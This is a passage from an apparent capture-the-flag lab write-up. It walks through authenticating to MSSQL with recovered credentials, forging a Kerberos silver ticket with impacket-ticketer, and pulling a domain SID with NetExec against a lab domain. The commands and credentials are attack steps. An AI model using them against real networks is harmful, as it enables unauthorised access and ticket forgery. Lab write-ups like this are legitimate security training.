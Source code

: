 Saving these creds to creds.txt file.

### MSSQL Exploitation

Lets authenticate with MSSQL Now.

```bash
impacket-mssqlclient breach.vl/'svc_mssql':'Trustno1'@breachdc.breach.vl -windows-auth
```

![image.png](/assets/images/Breach_VL/image%2020.png)

And we have MSSQL shell, We know that we are admin to the domain controller.

So lets enumerate more.

There’s nothing we can do inside of the MSSQL shell and there were no ways of enabling the xp_cmdshell to get code execution.

## Privilege Escalation

### Silver Ticket Forging and PAC Signing

To forge a silver ticket we will use the Impacket-Ticketer.

```bash
impacket-ticketer -spn '<MSSQLSVC SPN>' -domain-sid '<DOMAIN SID>' -domain signed.htb -user-id '<userid of the account to sign ticket>' -nthash '<NT hash of service account>' mssqlsvc_ticket
```

We need these parameters.

SPN → MSSQLSvc/breachdc.breach.vl

The domain SID can be retrieved using NetExec since we have valid credentials.

```bash
nxc ldap breach.vl -u 'Julia.wong' -p 'Computer1' --get-sid
```
